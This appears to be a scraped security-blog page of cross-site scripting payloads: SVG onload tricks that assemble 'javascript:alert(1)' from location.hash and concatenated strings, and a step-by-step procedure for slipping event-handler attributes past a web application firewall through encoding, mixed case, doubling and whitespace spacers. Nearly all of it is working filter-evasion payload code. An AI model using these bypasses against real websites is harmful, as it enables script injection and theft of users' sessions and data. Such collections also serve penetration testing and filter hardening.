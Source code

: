 <svg/onload=location=location.hash.substr(1)>#javascript:alert(1)
Result => javascript:alert(1)
<svg/onload=location='javas'%2B'cript:'%2B
'ale'%2B'rt'%2Blocation.hash.substr(1)>#(1)
Result => javas + cript: + ale + rt + (1)
<svg/onload=location=/javas/.source%2B/cript:/.source%2B
/ale/.source%2B/rt/.source%2Blocation.hash.substr(1)>#(1)
Result => javas + script: + ale + rt + (1)
<svg/onload=location=/javas/.source%2B/cript:/.source%2B/ale/.source
%2B/rt/.source%2Blocation.hash[1]%2B1%2Blocation.hash[2]>#()
Result => javas + cript: + ale + rt + ( + 1 + )

Filter Bypass Procedure

 #XSS vs WAF

1) use <x & jump to event handler

2) use onxxx=yyy & find number of x it accepts

3) test them & change tag accordingly

4) put js

— Brute (@brutelogic) October 10, 2015

<x onxxx=1

Example:
<x onxxx=1     -> pass
<x onxxxx=1   -> pass
<x onxxxxx=1 -> block

Event handlers with up to 6 chars:
oncut, onblur, oncopy, ondrag, ondrop, onhelp, onload, onplay, onshow

1) Encoding

<x onxxx=1
<%78 onxxx=1
<x %6Fnxxx=1
<x o%6Exxx=1
<x on%78xx=1
<x onxxx%3D1

2) Mixed Case

<X onxxx=1
<x ONxxx=1
<x OnXxx=1
<X OnXxx=1

3) Doubling

<x onxxx=1 onxxx=1

4) Spacers

<x/onxxx=1
<x%09onxxx=1
<x%0Aonxxx=1
<x%0Conxxx=1
<x%0Donxxx=1
<x%2Fonxxx=1
